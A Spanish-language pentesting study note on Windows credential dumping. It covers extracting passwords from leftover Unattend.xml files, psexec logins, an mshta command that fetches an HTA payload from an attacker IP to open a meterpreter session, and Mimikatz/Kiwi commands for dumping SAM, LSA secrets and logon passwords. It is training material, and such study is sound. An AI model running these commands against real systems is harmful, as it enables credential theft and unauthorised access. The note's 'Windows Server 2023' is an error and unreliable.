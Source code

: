  o30-03-2025 18:56
Status: #idea
Tags: [[Windows Credential Dumping]]

- [[#SAM Database|SAM Database]]
- [[#Buscando contraseñas en ficheros de configuración|Buscando contraseñas en ficheros de configuración]]
- [[#Herramientas|Herramientas]]
	- [[#Herramientas#Mimikatz|Mimikatz]]
		- [[#Mimikatz#Ejecutable|Ejecutable]]
		- [[#Mimikatz#Módulo Kiwi en metasploit|Módulo Kiwi en metasploit]]

# Windows Password Hashes

Windows guarda las hashes de las cuentas de usuarios localmente en la base de datos del SAM (Security Accounts Manager).

La autenticación y verificación de las credenciales de usuario son facilitadas por el Local Security Authority (LSA).

Las versiones de Windows mayores que Windows Server 2023, utilizan dos tipos de hashes: **LM y NTLM**. A partir de Windows Vista, se han desactivado las LM y solo se utiliza el NTLM hashing.

## SAM Database

Como hemos dicho anteriormente, las contraseñas hasheadas de todos los usuarios se guardan en esta base de datos.

Esta base de datos se puede copiar mientras el sistema operativo está funcionando.

El kernel mantiene bloqueada esta base de datos, por lo tanto los atacantes normalmente utilizan técnicas de memoria y herramientas para hacer dump desde el proceso LSASS.

En versiones recientes de Windows, la base de datos SAM está encriptada con una syskey.


> [!TIP] Privilegios y LSASS
> Para poder interactuar con el proceso de lsass necesitaremos permisos elevados o de administrador.


## Buscando contraseñas en ficheros de configuración

Windows permite automatizar tareas repetitivas, como la configuración e instalación de Windows en varios sistemas.

Esto normalmente se consigue con la utilidad "Unattended Windows Setup", que nos permite automatizar la instalación masiva de sistemas Windows.

Esta herramienta utiliza ficheros de configuración que contiene configuraciones específicas, y credenciales de cuentas válidas, especialmente, la contraseña de la cuenta Administrator.

Si estos ficheros se dejan en el sistema después de la instalación, podrán revelar credenciales de usuarios que podrían ser utilizadas por atacantes para autenticarse en el sistema.

Los directorios de estos ficheros son:

- **C:\Windows\Panther\Unattend.xml
- **C:\Windows\Panther\Autounattend.xml**

Estas contraseñas pueden estar presentes con encoding base64.

Para conseguir este fichero en nuestro sistema objetivo, tendríamos que tener acceso a el, ya sea con una sesión de meterpreter o a través de otros exploits.

Si tenemos una sesión de meterpreter, podremos descargar el fichero con el comando download:

```shell
download C:\Windows\Panther\Unattend.xml
```

Una vez tengamos el fichero, podremos hacer un cat y buscar las contraseñas, sobre todo del usuario de administración. Veremos que es una string en base64. Si la metemos en un fichero txt, por ejemplo password.txt, podremos usar la utilidad base64 que ya viene en kali directamente:

```shell
base64 -d password.txt
```

Y esto nos dará la contraseña. Puede que no sea válida, pero podremos probarla con psexec.py:

```shell
psexec.py Administrator@10.10.10.10
```

Si todo sale bien, deberíamos ser NT AUTHORITY\SYSTEM.

## Herramientas

Utilidades que podremos usar serán [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), que nos permitirá ver si existen estos ficheros, ya que es un script que se encarga de ejecutar un audit.

Si queremos ejecutar un cmd como administrador en Windows podremos usar el comando: 

```powershell
runas.exe /user:administrator cmd
```

Si queremos ejecutar una payload desde el cmd de privilegios elevados podemos usar el exploit [**hta_server**](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/), que nos proporcionará una url que podremos acceder desde nuestro powershell para conseguir una sesión de meterpreter.

Después desde nuestro powershell ejecutaremos:

```powershell
mshta.exe http://10.10.49.4:8080/Tomvj9c.hta
```

### Mimikatz

Mimikatz es una herramienta para la post-explotación que nos permite extraer contraseñas clear-text.

Lo que hace es extraer hashes del proceso lsass.exe, que es donde se cachean estas.

Podemos ejecutar su ejecutable, o si tenemos una sesión de meterpreter, utilizar el módulo Kiwi.

#### Ejecutable

En Kali tenemos el ejecutable de Mimikatz ya instalado. Se encuentra en la ruta **usr/share/windows-resources/mimikatz/x64/mimikatz.exe**.  

Si tenemos una sesión de meterpreter, podremos subirlo con el comando upload en la carpeta **Temp**, y posteriormente, invocar una shell para ejecutarlo.

```terminal
shell

.\mimikatz.exe
```

Comprobaremos que tenemos los permisos suficientes con este comando:

```terminal
privilege::debug
```

Si nos devuelve un **Privilege '20' OK**, nos está indicando que tenemos suficientes privilegios para hacer el dumping.

**Recuerda hacer migrate al proceso de lsass para tener el NT AUTHORITY\SYSTEM.**

Esto lo podremos hacer con el comando:

```terminal
lsadump::sam
lsadump::secrets
```

En este caso, el ejecutable nos da más información de la que nos proporcionará Kiwi.

También podemos probar suerte y ver si nos devuelve contraseñas en texto plano:

```terminal
sekurlsa::logonpasswords
```

#### Módulo Kiwi en metasploit

Para cargar el módulo tendremos que hacer: 

```terminal
load kiwi
```

Y posteriormente, se pueden usar varios comandos para conseguir dumpear las hashes, pero entre ellos está:

```terminal
creds_all
```

También podremos usar **lsa_dump_sam** para volcar la base de datos SAM, como vimos anteriormente: 

```terminal
// Vuelca la base de datos SAM
lsa_dump_sam

// Vuelca secretos, donde a veces se pueden encontrar datos interesantes
lsa_dump_secrets
```

#### Post exploitation

Después de tener los hashes, podremos realizar Pass The Hash. En esta sección linkeada se explica correctamente el proceso, y como lo podemos realizar.

[[Vulnerability Assessment#Pass The Hash]]



---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
